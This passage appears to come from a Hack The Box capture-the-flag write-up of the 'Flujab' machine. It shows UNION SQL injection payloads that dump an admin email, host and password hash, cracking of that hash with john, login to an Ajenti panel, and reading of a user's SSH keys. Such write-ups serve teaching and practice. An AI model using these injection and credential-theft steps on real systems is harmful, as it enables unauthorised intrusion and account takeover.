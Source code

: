 ```

prompt: union select 1,2,GROUP_CONCAT(email),4,5 from vaccinations.admin
syadmin@flujab.htb

prompt: union select 1,2,GROUP_CONCAT(access),4,5 from vaccinations.admin
sysadmin-console-01.flujab.htb

prompt: union select 1,2,GROUP_CONCAT(created),4,5 from vaccinations.admin
2018-07-02 08:45:19

prompt: union select 1,2,GROUP_CONCAT(password),4,5 from vaccinations.admin
a3e30cce47580888f1f185798aca22ff10be617f4a982d67643bb56448508602
```

Judging by the 64 byte output of the password column, we most likely have a SHA-256 encrypted password. The password turns out to be <code>th3doct0r</code>.


## User Shell

```bash
root@kali:~/htb/flujab# echo 'a3e30cce47580888f1f185798aca22ff10be617f4a982d67643bb56448508602' > pass.txt
root@kali:~/htb/flujab# john --format=raw-sha256 pass.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=4
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
th3doct0r        (?)
1g 0:00:00:00 DONE (2019-06-23 00:14) 3.030g/s 9929Kp/s 9929Kc/s 9929KC/s thetnna..texaszeus1
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

We can add <b>sysadmin-console-01.flujab.htb</b> to <b>/etc/hosts</b>. Access to port 80 is denied, but when we try port 8080, we get a different result.

<img src="/assets/images/ctfs/htb-flujab/sysadmin-console" alt="" class="center" alt="" class="center">

It turns out, the plugin is supposed to load, and we are meant to see a login page for an Ajenti Server Admin Panel. Using <code>sysadm</code> as the username and <code>th3doct0r</code> as the password, we can log into Ajenti.

At this point, since we were unable to get the console plugin to load, I will focus on explaining the remaining vulnerabilities on Flujab without screenshots.

Using the Notepad tool in Ajenti, we have read access to certain files on the server. Attempting to read <b>/proc/self/environ</b> will give an error message, but we find authorized public and private SSH keys for a user named <b>drno</b> in <b>/home/drno/.ssh/</b>. Checking the <b>/etc/hosts.deny</b> file should show hosts that are not allowed to access the system and <b>/etc/hosts.allow</b> should show hosts that are allowed to access the box via SSH. It turns out that sshd is blocked for all hosts.
